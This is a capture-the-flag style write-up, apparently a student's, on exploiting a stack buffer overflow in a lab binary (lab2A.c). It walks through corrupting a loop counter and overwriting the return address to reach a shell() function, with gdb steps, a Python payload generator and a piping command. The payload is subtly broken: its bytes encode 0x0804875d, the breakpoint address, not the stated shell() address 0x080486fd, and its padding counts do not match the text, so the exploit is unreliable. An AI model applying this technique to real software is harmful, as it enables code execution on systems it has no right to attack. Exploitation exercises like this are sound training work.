


# lab2A.c analysis
When we start the executable, we get the option to enter a word up to 10 times before the terminal sends the message: 
> Not authenticated. Here are the first characters from the 10 words concatenated: {concatinated chars}

## int main()
When we take a look at the code we see the 3 functions `main`, `concatenate_first_chars` and `shell`.

The purpose of the first block called in the main function is to exclude parameters being passed.
```c
if(argc != 1) 
{
    printf("usage:\n%s\n", argv[0]);
    return EXIT_FAILURE;
}
```
After that `concatenate_first_chars()` is being called and the program ends.
```c
concatenate_first_chars();
printf("Not authenticated\n");
return EXIT_SUCCESS;
```
## void concatenate_first_chars()
At the start of the function we create a struct that includes the `word_buf` we will write to it whenever we enter a word, the iterator variable `i` for the for-loop, the pointer `cat_pointer` at which a new element will be added to the array of concatenated chars and the array `cat_buf` itself.
```c
struct {
    char word_buf[12];
    int i;
    char* cat_pointer;
    char cat_buf[10];
} locals;
```
Then we´ll iterate through the for-loop till `i` is equal to 10. The input itself, we´ll grab with the `fgets()` function. `fgets()` writes to the array `word_buf` and takes a max input of 16 characters from `stdin`. The program fails when we enter a not valid input or `\n`, otherwise it will increase the `cat_pointer`.
```c
for(locals.i=0; locals.i!=10; locals.i++)
{
    if(fgets(locals.word_buf, 0x10, stdin) == 0 || locals.word_buf[0] == '\n')
    {
        printf("Failed to read word\n");
        return;
    }
    // Copy first char from word to next location in concatenated buffer
    *locals.cat_pointer = *locals.word_buf;
    locals.cat_pointer++;
}
```
At the end it will `print` the concatenated characters.
## void shell()
This function starts a shell. Our goal will be to call this function.

# Finding the buffer overflow
Since I´m new to exploiting vulnerabilities in binaries my first step was to find out what are common ways buffer overflows get into our code in the first place. One of functions that were mentioned was the `fgets()` function. The use of fgets() is not a guarantee for a buffer overflow, but it can happen if done carelessly.
## Finding a buffer overflow in fgets()
To see if `fgets()` is vulnerable we have to take a closer look on what the function does exactly:
Our `fgets()` lets us enter `stdin` with the max size of 16 characters and writes it to `word_buf`. So if we can overflow something it should be `word_buf`. `word_buf` has a max length of 12 characters but `fgets()` writes up to 16 characters. So we can actually overflow `word_buf` and start thinking about if and how we can exploit that.
## Planning the exploit
Our end goal is to call the `shell()` function. By gaining access to just those few extra bytes we can manipulate we cant call `shell()`. A way we could achieve that is by corrupting the return address of `concatenate_first_chars()`.
> !! A function can be called from different places in the code. To know from which place the function was called the return address will be stored on the stack. By overwriting this address to the address of the `shell()` function after we´ll jump to `shell()` and not `main()` after we leave `concatenate_first_chars()`

To make further progress with our exploitation we should analyse what data we can manipulate with our current overflow. For that it makes sense to see how the stack actually looks like.

Since the variables are all inside one struct their order is actually deterministic. The first 12 bytes are reserves for `word_buf` then 4 byte for `i`, 4 bytes for `cat_pointer` and then 10 bytes for `cat_buf`.

> !! This challenge is done with a 32-bit executable. If it would´ve been done with 64-bit executable the sizes might change.

The next thing in our stack is `i`. So with our current overflow we can manipulate the state of `i`, which brings us to the next stage of the exploit.

Because we can control what `i` is, we can iterate as much as we want though the for-loop. The next step is to think about how we can exploit this new unintended behavior.

When taking a closer look on what happens we can see, that at the end the first byte from our input gets appended to the `cat_buf` without checking if it´s out of bounds. With that we found another buffer overflow to gained unrestricted control over the stack since we can run the for loop as long as we want therefore we can add a byte each iteration.

The return address is always the last thing on the stack. So now we have the tool to change the return address to our desired one.

# Executing the exploit
A short summarization on what we want to do to successfully change the return address.
With our first input we want to overflow `word_buf` and corrupt `i` so we can iterate though the for-loop as much as we want. Then we´ll enter single characters till `cat_buf` is overflown. After that, we continue filling `cat_buf` with data. After a certain amount we´ll reach the address at which the return address is stored. Now we´ll enter the desired address byte by byte and then we´ll enter a `\n` to escape the for-loop and successfully call the `shell()`.
## python script to generate payload
The 2 things we have to figure out before writing a script to generate the payload is the address of `shell()` to be able to call it and we have to figure out how much space to fill is between `cat_buffer` and the return address.

We figure the address of `shell()` out by debugging it:

> gdb ./vulnerableExecutable

> info functions 

to see the addresses of the functions. My `shell()` is at `0x080486fd` for example.

To figure out what the state of our stack is when we´re doing our overflow, we have to set a breakpoint at the relevant position, run the executable in debug mode and read out the right register.

> disassemble concatenate_first_chars

**pick the desired position for example after the `fgets()` call:**
> break *0x0804875d 

Your address can be different!

> run

> x/24wx $esp


> bt


Locate where the bytes you entered were stored and check where the return address shown in the backtrace matches with the value in the register. Then count the bytes you´ll have to overwrite to reach the return address.

We have to write 19 bytes of data to reach the return address and then the next 4 bytes will be the new address.
```python
corrupt_i = b"\xaa"* 13 + b"\0a"
padding = b"\xaa\x0a"*23
shell_address = b"\x5d\x0a\x87\x0a\x04\x0a\x08\x0a"
payload = corrupt_i + padding + shell_address + b"\x0a"
with open("payload","wb") as file:
    file.write(payload)
```

Then we create the payload:
> python genPayload.py

And pipe the input:
> (cat payload; cat) | ./vulnerableExecutable

This is done so the `EOF` signal from our payload doesnt get passed into our new shell but into our cat so the shell doesnt exit.